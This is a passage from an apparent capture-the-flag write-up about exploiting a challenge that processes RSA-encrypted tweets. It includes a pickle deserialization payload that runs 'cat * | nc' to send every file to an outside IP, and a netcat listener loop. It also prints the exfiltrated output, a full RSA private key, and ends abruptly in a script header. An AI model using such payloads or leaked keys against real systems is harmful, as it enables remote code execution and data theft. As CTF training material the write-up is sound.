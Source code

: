 However we would need a public key for encrypting the data. Looking around on twitter we find the [key](pub.pem) with same hashtag.
Now we can get the flag by various methods on the machine. We can make a request to a controlled domain with contents of the flag.

What I did was "cat * | nc my-machine port". It will dump the contents of every file to the port which I was listening on my machine.
A quick RSA encryption
```python
from Crypto.PublicKey import RSA
from base64 import b64decode,b64encode

key=RSA.importKey(open('pub.pem').read())
exploit="eko11"+"cos\nsystem\n(S'cat * | nc 182.70.222.238 8000'\ntR.'\ntR."
txt=key.encrypt(exploit,32)[0]
final=b64encode(txt)
print final
````

We can use pastebin's view-raw url as a link in the tweet and 

```bash
while true ; do nc -l -n -v  -p 8000 ; done
```
on my machine. After some 30-40 seconds
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAmWw84H8BSPG1Ispn1hBPWZ4ORxniLhOl76aOAsGsqdRZJyL+
PFLWedGUx0ELwzf3vWQ2wMDwN37MZYWdS4z8WT6P4FRtK09UtDgqNUQdx49WBqDf
2GmIT+uBwMQBUCe3x+RTVcwDzA1I0mPtJj3K6bGdmSSBZjgc6MA4rJil7xdSVP5P
edb8MZMKk/5tXmFl3gFjykkUfG+DbmsxulZ48D+IoIU6bVWAkael+ftZtDWY43Xk
ezD2swV01Eaw4J7MzBakPDA6KipxNhKQZ2xoeEsP2p8L67qF48eUbxI1ukcrqdy0
c92rSihmChGBmHQ2AREshtTTLpM24/Nrirje/QIDAQABAoIBAEF/xyGktxy4LDe1
J81o2yeMZdYPA9PeCYqdlaUxoBBFGuatdtK0HuKVCipi562pWDff78ws0qEunf59
o6CciSNkpTIFeTHzRVtHWyWwdfI7jGN6DPasX0iXZ6avR0w8GKbbIITRe5GC3mML
zDP2T4mjjX/S6PeF3zmyzr9I0BaZOgTdUumuYCzDfA9+MgRxIUi9i+7rrOMTiGdo
WGJVGC+j8vQiyf5eOGtlQxYLwm2pWas3EYrvk6jiesNhdDvr87X7YW8uABwUlLr5
5m/vocLCJLpo+QjFdyo6bNd/wEfQs1pG9C0UPIe46YIEeAkY08q2a5xzikfx/CGL
nsgc/dUCgYEAyynNy9qbUEbgJr6dfksTs2nBu89yG/vy3eoNoUbStr0LCAIYl8kn
XnwliCuli/5Zssb6/uBqX7fUuD3ztgCmo8KoNjJ/VHh9n701Uwl5FghqeoILnQHI
CFbN1Ub18VoOLt2SjgKN+7sqqrEiCqyyFxyoCDyBkBOqS7gr0V+/wMMCgYEAwVLQ
VZb335ovMx20cE8yO200dbwFdlJsYhM0PKSLLJ0aSsymrhFhUZC/rjQ8rJD1zs+W
lg6QeQ6yQRE4n4egi8NOnMms83kIMGeOa5VvCcQxXJ8v4Vez432SOeRHMxiUmiME
XHGnulsI9NhKYoMKfvfvLEwptzhCfAr2QO7e5T8CgYEAuFcZFVQowuFcd6tTagmj
OZLHJ6tl5YBpcPPzJBgID6lePgjw2aC6aSAKShEYZ/sE1pN3oRZtTqaVjAsifE0A
5uw0BuEw6ateiTd8D/kzdktymfAvq2m3X+GraE630COfZOTFGre0rum4ICMTOU5T
VWc6DCcihGFjjsrwb00Kx1MCgYAB9KuE4iUZzv6BPuCvbi2s6jroogFQJB9Skq0p
m+SIjAJTFWTuR+C7KYK26XJfsIu8Dt+QHw+ZGev1uo3fF0kpgM1Pyr6ELApIKxQG
xJk9+Q0iyb17Qx7fw0pyaXvK6Ym/UXFe2gt/WCJsD7AY9QhrJmj2AsM9RkVt6dJ5
77CzkwKBgQCk8oTtzfyXzUWcqsiekmHmzDAuO+SH/a0/FP2ceTq0I1caS6OAvYlj
R9aTJk5P02EmnfWCZVpMhzHlL4zO1x+2PiUiAXOthbyufWt5qyigp6jsNouLqFz0
Oksk+bPu1XDVqT2XpoQtFXyFuJZmaFlA3k2Ny7rGe5bJ8XWCX6E+Bg==
-----END RSA PRIVATE KEY-----
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAmWw84H8BSPG1Ispn1hBP
WZ4ORxniLhOl76aOAsGsqdRZJyL+PFLWedGUx0ELwzf3vWQ2wMDwN37MZYWdS4z8
WT6P4FRtK09UtDgqNUQdx49WBqDf2GmIT+uBwMQBUCe3x+RTVcwDzA1I0mPtJj3K
6bGdmSSBZjgc6MA4rJil7xdSVP5Pedb8MZMKk/5tXmFl3gFjykkUfG+DbmsxulZ4
8D+IoIU6bVWAkael+ftZtDWY43XkezD2swV01Eaw4J7MzBakPDA6KipxNhKQZ2xo
eEsP2p8L67qF48eUbxI1ukcrqdy0c92rSihmChGBmHQ2AREshtTTLpM24/Nrirje
/QIDAQAB
-----END PUBLIC KEY-----
#/usr/bin/python
import os
import sys
import httplib2
```
